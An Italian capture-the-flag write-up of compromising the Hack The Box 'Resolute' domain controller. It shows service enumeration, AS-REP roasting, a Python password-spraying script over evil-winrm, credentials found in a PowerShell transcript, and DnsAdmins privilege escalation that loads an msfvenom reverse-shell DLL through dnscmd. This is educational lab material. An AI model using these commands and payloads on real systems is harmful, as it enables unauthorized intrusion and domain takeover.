 ## Information Gathering

Tramite una prima scansione al volo con nmap scopro i seguenti servizi interessanti attivi:

```
nmap -sV -sS -O -A <IP>

PORT     STATE SERVICE      VERSION
53/tcp   open  domain
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-04-02 17:57:14Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped

```

Contemporaneamente con enum4linux sono emersi diversi usernames e gruppi. Prelevo il frammento e "pulisco" il testo per estrarre gli usernames puliti con il seguente script:

```
import re 

users = "[Administrator] rid:[0x1f4] \
user:[Guest] rid:[0x1f5] \
etc..."

usr = users.split("user")

for x in usr:
	y = re.findall("\[(.*?)\]", x)[0]
	with open("clean_usr.txt", mode="w+") as f:
    f.write(y)
```
Creato il listato, lo uso per provare a sniffare dei TGT dal servizio di Kerberos:

```
python GetNPUsers.py htb.local/ -no-pass -usersfile clean_user.txt -dc-ip 10.10.10.XXX
```
Ma non ne ricavo nulla...
Quindi effettuo anche una scansione del servizio rpcclient:

```
rpcclient -W workgroup -c querydispinfo -U '' -N  res
```

E scopro una password default per l'utenza "marko": Welcome123!

## Exploiting in the System

A questo punto, grazie a [Lorenzo Invidia](https://github.com/lorenzoinvidia), scopro che la password non è più valida per Marko, tuttavia potrebbe essere valida per altri!

Quindi scrivo il seguente script, che prova a collegarsi alla macchina (e con la password sopracitata) per tutti gli utenti ricavati:

```
import os

with open("users_list.txt", mode="r") as f:
	users = f.read().splitlines()

for x in users:
	stream = os.popen("evil-winrm -u "+ x +" -p Welcome123! -i resolute")

	if "WinRM::WinRMAuthorizationError" in stream.read():
		print "[-] " + x + " non valido"
	else:
		print "[*] Utente trovato: " + x
		exit(0)
```

Trovo così l'utenza di melanie. Entro nel sistema e trovo il primo flag!

## Privilege Escalation

#### Phase 1

Ho tentato svariati tentativi, ho lanciato WinPeas, ho provato a recuperare le credenziali di AutoLogon di Administrator tramite Metasploit ma non sono riuscito a recuperare niente. Questo punto ho notato che esistono tanti utenti presenti all'interno del sistema quindi ho ricercato possibili credenziali in chiaro. 

Inizialmente non ho rinvenuto alcun file, quindi ho cercato i file nascosti (partendo da melanie) con:

```
Get-ChildItem -Force -Hidden -Recurse 2>$null
```

Ma non ho trovato nulla. Quindi, facendo partire il comando dalla root del disco C: trovo parecchi file interessanti nascosti, fra cui anche il SAM e SYSTEM. (Ma forse non sono accessibili, non ho provato).

Fra tutti i file, mi è saltato all'occhio:

* PowerShell_transcript...txt

Aprendolo trovo le credenziali per l'utente ryan, in chiaro! Quindi loggo all'interno del sistema con le sue creds.

#### Phase 2

Ho lanciato nuovamente winPEAS ma non ho trovato nulla, quindi comincio con la verifica dei permessi e dei gruppi:

```
net user ryan /domain
```
Ma non trovo niente, quindi provo con: 
```
whoami /all
```

E leggo la riga: 

```
MEGABANK\DnsAdmins   Alias S-1-5-21-[...]-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group

```

Quindi noto che appartiene al gruppo DnsAdmins, vulnerabile (di cui esiste anche un exploit in Msf).

Innanzitutto genero una dll infetta con payload una reverse_tcp_shell:

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=4444 -f dll > privesc.dll
```
Quindi lo metto in hosting tramite samba:

```
mbserver.py share ./

```

A questo punto dalla macchina windows inietto la DLL:

```
dnscmd DC /config /serverlevelplugindll \\<HOST>\share\privesc.dll
```
Quindi verifico con:
```

Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```

Metto in ascolto NetCat, infine lancio i seguenti comandi per riavviare la configurazione dns sulla macchina vittima:

```
sc.exe <X> stop dns
sc.exe <X> start dns
```
That's it! Root's Flag :) 

